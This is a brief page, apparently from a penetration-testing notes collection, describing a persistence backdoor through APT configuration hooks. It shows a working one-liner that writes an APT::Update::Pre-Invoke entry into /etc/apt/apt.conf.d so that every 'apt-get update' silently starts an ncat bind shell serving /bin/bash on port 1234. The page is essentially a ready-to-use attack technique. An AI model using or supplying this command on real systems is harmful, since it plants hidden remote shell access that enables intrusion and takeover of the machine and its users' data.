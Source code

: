 # apt Backdoor

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};` Next time "apt-get update" is done, your CMD will be executed!

```
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```
